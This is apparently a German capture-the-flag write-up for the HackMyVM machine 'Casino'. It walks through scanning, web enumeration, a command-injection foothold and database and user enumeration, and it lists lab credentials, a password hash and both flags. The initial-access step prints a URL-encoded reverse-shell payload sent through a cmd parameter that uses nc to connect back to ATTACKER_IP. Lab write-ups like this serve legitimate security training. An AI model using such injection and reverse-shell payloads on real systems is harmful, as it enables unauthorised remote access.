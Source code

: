 # Casino - HackMyVM (Medium)

![Casino Icon](Casino.png)

## Übersicht

*   **VM:** Casino
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Casino)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 28. Juni 2023
*   **Original-Writeup:** https://alientec1908.github.io/Casino_HackMyVM_Medium/ (**Autor:** Ben C.)

## Kurzbeschreibung

Die virtuelle Maschine "Casino" von HackMyVM (Schwierigkeitsgrad: Medium) stellte eine Herausforderung dar, bei der mehrere Schwachstellen ausgenutzt werden mussten, um vollen Root-Zugriff zu erlangen. Der initiale Zugriff erfolgte durch eine Local File Inclusion (LFI) oder Command Injection Schwachstelle in einer PHP-Datei des Webservers. Durch weitere Enumeration als Webserver-Benutzer wurden Datenbank-Credentials und Benutzer-Passwort-Hashes gefunden. Die genauen Schritte zur finalen Rechteausweitung zu Root sind im zugrundeliegenden Writeup nicht detailliert dokumentiert, führten aber letztendlich zur Kompromittierung des Systems.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `curl`
*   `mysql` (Client)
*   `hydra`
*   `gobuster`
*   `wget`
*   `exiftool`
*   `dirb`
*   `nc` (netcat)
*   Standard Linux-Befehle (`cat`, `ls`, `find`, `ss`, `uname`, `getcap`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Casino" verlief in folgenden Phasen:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.113`) mittels `arp-scan` und Eintrag als `casino.hmv` in `/etc/hosts`.
    *   `nmap`-Scan offenbarte Port 22 (OpenSSH 9.2p1) und Port 80 (Apache 2.4.57). Die Webseite hatte den Titel "Binary Bet Casino", und das `PHPSESSID`-Cookie wurde ohne `HttpOnly`-Flag gesetzt.

2.  **Web Enumeration:**
    *   `nikto` identifizierte kritische Dateien: `/database.sql` und `/config.php` sowie Verzeichnisauflistung für `/imgs/` und `/styles/`.
    *   `curl http://casino.hmv/database.sql` lieferte MySQL-Credentials: `casino_admin`:`IJustWantToBeRichBaby420` (nur für `localhost`-Zugriff).
    *   Ein externer Login-Versuch mit diesen Credentials auf die MySQL-Datenbank schlug erwartungsgemäß fehl.
    *   `hydra` auf SSH mit dem Benutzer `casino_admin` scheiterte, da der SSH-Server keine Passwort-Authentifizierung erlaubte.
    *   `gobuster` fand weitere Webpfade, darunter `register.php`, `/casino/` (mit `head.php` und `instructions.txt`).
    *   Die Datei `instructions.txt` beschrieb die Spielregeln der Casino-Anwendung.
    *   Metadaten-Analyse von `background.jpg` mit `exiftool` ergab keine relevanten Informationen.
    *   `dirb` bestätigte frühere Funde und zeigte einen `/server-status`-Endpunkt (403 Forbidden).

3.  **Initial Access (LFI / Command Injection & Reverse Shell):**
    *   Eine Schwachstelle (vermutlich LFI oder Command Injection) in `/casino/head.php` wurde über den `cmd`-Parameter ausgenutzt.
    *   Mittels einer URL-kodierten Bash-Reverse-Shell-Payload (via `nc`) im `cmd`-Parameter wurde eine Verbindung zum Angreifer-System hergestellt:
        `http://192.168.2.113/casino/head.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20ATTACKER_IP%205555%20%3E%2Ftmp%2Ff`
    *   Erfolgreiche Etablierung einer Reverse Shell als Benutzer `www-data`.
    *   Auslesen von `/var/www/html/config.php` bestätigte die Datenbank-Credentials.

4.  **Privilege Escalation Enumeration (als www-data):**
    *   Identifizierung der Benutzer-Home-Verzeichnisse: `gimbal` und `shimmer`.
    *   Keine ungewöhnlichen SUID-Binaries gefunden.
    *   Netzwerk-Sockets (`ss -altpn`) zeigten einen unbekannten Dienst auf Port 6969 (localhost), den MySQL-Dienst auf 3306 (localhost) sowie SSH (22) und HTTP (80) auf allen Interfaces.
    *   Keine nützlichen Backups in `/var/backups/`.
    *   Erfolgreicher Login in die lokale MariaDB-Datenbank als `casino_admin`.
    *   In der `casino`-Datenbank, Tabelle `users`, wurde der Benutzer `tom` mit dem bcrypt-Passwort-Hash `$2y$10$ZSVTC1i0SGSy6hv04HOkFej3Cc0hq6kT9dS4EkrZOc7yBn0cEsKaq` gefunden.
    *   Entdeckung der Datei `/casino/explainmepls.php` mit einem GET-Parameter `learnabout`, der auf weitere Schwachstellen hindeuten könnte.
    *   Die Kernel-Version wurde als `Linux casino 6.1.0-9-amd64` identifiziert.
    *   `getcap` zeigte keine ungewöhnlichen Linux Capabilities.
    *   *Anmerkung: Der detaillierte Schritt von `www-data` (mit Kenntnis des `tom`-Hashes) zur Root-Eskalation ist im Original-Writeup nicht explizit dokumentiert.*

## Wichtige Schwachstellen und Konzepte

*   **LFI / Command Injection:** Ausnutzung einer Schwachstelle in `/casino/head.php` über den `cmd`-Parameter für initialen Zugriff.
*   **Klartext-Credentials im Web-Root:** Sensible Datenbank-Zugangsdaten in `database.sql` und `config.php` öffentlich zugänglich.
*   **Fehlende HTTP-Sicherheitsheader:** Insbesondere das `HttpOnly`-Flag für Session-Cookies.
*   **Verzeichnisauflistung (Directory Indexing):** Aktiviert für mehrere Verzeichnisse.
*   **Schwache Passwörter / Hash-Cracking:** Fund eines bcrypt-Hashes, der potenziell für Offline-Cracking anfällig ist.
*   **Informationslecks:** Aufdeckung von Benutzernamen und Datenbankstruktur.
*   **Fehlkonfigurationen:** SSH erlaubt (korrekterweise) keine Passwort-Authentifizierung, was Brute-Force erschwert.

## Flags

*   **User Flag (`user.txt`):** `casinousergobrrr`
*   **Root Flag (`root.txt`):** `symboliclove4u`

## Tags

`HackMyVM`, `Casino`, `Medium`, `LFI`, `Command Injection`, `Web`, `PHP`, `MySQL`, `Credentials Exposure`, `Reverse Shell`, `Privilege Escalation`, `Linux`, `Apache`
